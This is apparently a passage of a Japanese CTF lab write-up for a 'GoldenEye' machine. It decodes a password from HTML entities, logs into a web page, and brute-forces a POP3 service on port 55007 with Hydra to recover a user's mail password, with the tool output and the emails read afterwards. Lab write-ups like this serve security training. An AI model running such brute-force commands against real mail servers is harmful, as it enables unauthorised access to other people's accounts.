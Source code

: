 CyberChefで、`From HTML Entity` でデコードするとパスワードになる。  
このパスワードを使ってサイトにログインせよとの指示。

/sev-home/ でログイン

```txt
GoldenEye
GoldenEyeは、ソ連の極秘宇宙兵器プロジェクトです。アクセス権限をお持ちということは、間違いなく極秘のクリアランスを有し、GoldenEye認定ネットワークオペレーター（GNO）の資格を有することになります。

GoldenEyeシステムの管理者になるためのオンラインGoldenEyeオペレータートレーニングを受講するには、資格のあるGNOスーパーバイザーにメールでお問い合わせください。

秘匿性によるセキュリティは非常に効果的であるため、POP3サービスはデフォルト以外の非常に高いポートで動作するように設定されています。
```

## mail

Thunderbirdでユーザー名とパスワードを設定したが、認証が通らなかった。

POP3をブルートフォース。borisのメールパスワード判明。

```sh
root@ip-10-201-82-101:~# hydra -l boris -P /usr/share/wordlists/fasttrack.txt $TARGET pop3 -t 30 -s 55007
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-10-21 02:35:49
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 30 tasks per 1 server, overall 30 tasks, 222 login tries (l:1/p:222), ~8 tries per task
[DATA] attacking pop3://10.201.42.154:55007/
[55007][pop3] host: 10.201.42.154   login: boris   password: [REDACTED]
[STATUS] 222.00 tries/min, 222 tries in 00:01h, 1 to do in 00:01h, 29 active
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-10-21 02:37:02
```

### 55007 POP3

受信。

root@127.0.0.1.goldeneye

```
Boris, this is admin. You can electronically communicate to co-workers and students here. I'm not going to scan emails for security risks because I trust you and the other admins here.
```

natalya@ubuntu

```
Boris, I can break your codes!
```
